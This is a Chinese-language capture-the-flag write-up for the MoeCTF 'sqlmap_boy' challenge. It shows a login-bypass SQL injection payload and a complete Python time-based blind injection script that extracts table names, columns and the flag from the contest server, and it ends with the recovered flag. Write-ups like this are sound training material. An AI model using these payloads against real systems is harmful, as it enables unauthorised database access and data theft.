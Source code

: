 # sqlmap_boy

在做题前该看看提示。

- <0> 校内网络攻击流量可能会被学校拦截，导致一些工具跑不通。这时不妨试试手工注入！<br> <1> 盲注是下下策！

sqlmap_boy，但是不能用sqlmap。先看看网页，在注释里找到了sql语句。

![sql_query](../images/sql_query.png)

有了语句就可以很简单地找到闭合方法了。构造payload。

- '" or 1=1 #

在account输入框输入，password框直接不用管。直接就进来了，但是啥也没有，只有一个白屏黑字的网页，写着“我超黑客！”。看url发现有id参数，改变id为2，内容又变成了“你好强”。然后就没有然后了。拿bp爆破了前500个id，都没有其他的内容。看来这个sql注入不是绕过登陆，而是爆数据。痛苦的事情来了，我找了很久都没有发现回显，没有回显意味着只能使用盲注。查到了[dnslog](https://www.anquanke.com/post/id/98096)注入的方法，但是我自己试了一下好像不行，可能服务器不是windows？可以选择用布尔盲注和延时注入，因为页面在条件正确和错误的情况下是不一样的。可惜我不会写布尔盲注的python脚本，不知道咋判断，于是选择了延时注入。先放exp吧。

```python
from string import printable
import requests
import time
url="http://82.156.5.200:1045/login.php"
content=""
letters=printable
for pos in range(1,50):
    if len(content) != pos-1:
        break
    for i in range(len(letters)):
        #数据库名:moectf
        #poc="'\" union select 1,if(ascii(substr((database()),"+str(pos)+",1))="+ord(letters[i])+",sleep(2),1) #"
        #表名1:articles
        #poc=f"'\" union select 1,if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),{str(pos)},1))={ord(letters[i])},sleep(2),1) #"
        #表名2:flag
        #poc=f"'\" union select 1,if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),{str(pos)},1))={ord(letters[i])},sleep(2),1) #"
        #表名3:users
        #poc=f"'\" union select 1,if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 2,1),{str(pos)},1))={ord(letters[i])},sleep(2),1) #"
        #users字段1:id
        #poc=f"'\" union select 1,if(ascii(substr((select column_name from information_schema.columns where table_name='users' and table_schema=database() limit 0,1),{str(pos)},1))={ord(letters[i])},sleep(2),1) #"
        #users字段2:username
        #poc=f"'\" union select 1,if(ascii(substr((select column_name from information_schema.columns where table_name='users' and table_schema=database() limit 1,1),{str(pos)},1))={ord(letters[i])},sleep(2),1) #"
        #users表字段3:password
        #poc=f"'\" union select 1,if(ascii(substr((select column_name from information_schema.columns where table_name='users' and table_schema=database() limit 2,1),{str(pos)},1))={ord(letters[i])},sleep(2),1) #"
        #flag表字段1:flAg
        #poc=f"'\" union select 1,if(ascii(substr((select column_name from information_schema.columns where table_name='flag' and table_schema=database() limit 0,1),{str(pos)},1))={ord(letters[i])},sleep(2),1) #"
        #内容1:moectf?
        #poc=f"'\" union select 1,if(ascii(substr((select flAg from flag limit 1,1),{str(pos)},1))={ord(letters[i])},sleep(2),1) #"
        #内容2:moectf{Ar3_you_
        #poc=f"'\" union select 1,if(ascii(substr((select flAg from flag limit 2,1),{str(pos)},1))={ord(letters[i])},sleep(2),1) #"
        #内容3:sCr1ptboy}
        poc=f"'\" union select 1,if(ascii(substr((select flAg from flag limit 3,1),{str(pos)},1))={ord(letters[i])},sleep(2),1) #"
        data={'username':poc,'password':''}
        t1=time.time()
        res=requests.post(url,data=data)
        t2=time.time()
        if(t2-t1>2):
            content+=letters[i]
            print(content)
            break
```

珍爱生命远离盲注。提示已经明确说了不要用盲注了，我还是用了，因为找不到别的方法。出题人很邪恶，flag表的字段叫flAg，里面有3个内容，其中一个还是假的。没啥技术含量，就是抄了网上的延时注入语句。折磨是真的折磨，搞了至少一个小时，估计还不止。中途把pos变量放错位置了，放到了limit里，导致怎么都爆不出来。

我的方法应该是错的，等比赛结束看看官方wp。

- ### Flag
  > moectf{Ar3_you_sCr1ptboy}